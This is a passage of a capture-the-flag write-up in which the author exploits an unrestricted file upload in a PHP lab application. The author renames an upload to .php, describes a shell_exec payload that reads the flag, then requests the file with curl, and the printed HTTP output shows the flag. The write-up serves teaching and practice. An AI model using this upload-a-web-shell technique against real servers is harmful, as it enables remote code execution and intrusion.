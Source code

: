 ```
< Server: Apache/2.4.18 (Ubuntu)
< Last-Modified: Thu, 01 Nov 2018 03:05:41 GMT
< ETag: "21-57991b1a8fc9e"
< Accept-Ranges: bytes
< Content-Length: 33
< Content-Type: text/plain
< 
what if i'm just a test file :'(
* Connection #0 to host 127.0.0.1 left intact
```

Bad things can happen when a web application serves user-provided files. This being a PHP application, the first thought should be, 'can I upload a PHP file?' and the second, 'will it execute?'

Modify the request above to use a `.php` filename and replace the file contents with a quick `shell_exec` to `cat` the flag. [OWASP ZAP](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project) shown here since this is AppSec USA after all.

![RCE Cornucopia](/img/rce-cornucopia/rce5-002.png)

Answer to the first question is yes, we can upload PHP files. But will it execute?

```
# curl -v http://127.0.0.1:8085/uploads/b0d0320f1440a2b9a325ead8338cd45aabc89740b8ea633c7dc4a5c856a6215a.php
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8085 (#0)
> GET /uploads/b0d0320f1440a2b9a325ead8338cd45aabc89740b8ea633c7dc4a5c856a6215a.php HTTP/1.1
> Host: 127.0.0.1:8085
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Thu, 01 Nov 2018 03:18:02 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 130
< Content-Type: text/html; charset=UTF-8
< 
flag{RipBoilingWater,YouWillBeMist}
* Connection #0 to host 127.0.0.1 left intact
source: https://www.reddit.com/r/oneliners/comments/78mp1h/rip_boiling_water_you_will_be_mist/
```